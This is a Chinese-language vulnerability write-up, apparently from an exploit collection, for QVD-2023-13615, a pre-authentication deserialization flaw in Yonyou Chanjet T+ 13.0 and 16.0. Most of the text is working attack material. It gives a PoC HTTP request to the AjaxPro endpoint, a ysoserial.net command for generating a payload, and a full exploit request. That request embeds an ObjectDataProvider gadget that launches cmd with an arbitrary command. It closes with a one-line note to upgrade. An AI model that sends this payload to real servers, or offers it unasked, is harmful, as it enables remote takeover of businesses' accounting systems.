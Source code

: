 # 用友 畅捷通 T+ 前台远程命令执行漏洞 QVD-2023-13615

# 用友 畅捷通 T+ 前台远程命令执行漏洞 QVD-2023-13615

## 漏洞描述

由于用友畅捷通 T+前台存在反序列化漏洞，恶意攻击者成功利用此漏洞可在目标服务器上执行任意命令。

## 漏洞影响

```
T+13.0
T+16.0
```

## 漏洞复现

poc

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{}
}
```

使用ysoserial.net工具构造payload

```
./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"
```

exp

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c 执行的命令"
        }
    }
  }
}
```

## 漏洞修复

目前官方已修复该漏洞，受影响用户可以升级更新到安全版本。官方下载链接：https://www.chanjetvip.com/product/goods/


